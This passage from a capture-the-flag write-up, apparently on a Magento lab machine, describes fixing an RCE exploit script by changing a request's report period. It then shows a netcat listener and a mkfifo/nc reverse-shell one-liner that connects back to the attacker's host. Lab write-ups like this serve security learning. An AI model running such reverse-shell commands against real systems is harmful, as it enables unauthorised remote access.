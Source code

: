 Looking at the code it was doing a regular expression search and not finding the information required. I added some debug lines and verified &nbsp;the data wasn't being returned by the server. I then fired up the developer console in firefox and navigated around the page that was being accessed and in the network tab found that the information was being returned if the report period was changed to Year to Date. Looking at the developer console this was specified as `1y` in the request. I then edited the script and replaced
```python
    request = br.open(url + 'block/tab_orders/period/7d/?isAjax=true', data='isAjax=false&form_key=' + key)
```
with
```python
    request = br.open(url + 'block/tab_orders/period/1y/?isAjax=true', data='isAjax=false&form_key=' + key)
```
I then reran my test which called `id` and it worked. I then set up a listener with `nc -lvp 1234` and ran:
```bash
    python post-rce.py http://10.10.10.140/index.php/admin "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 1234 >/tmp/f"
```
Which got me a shell a different way!

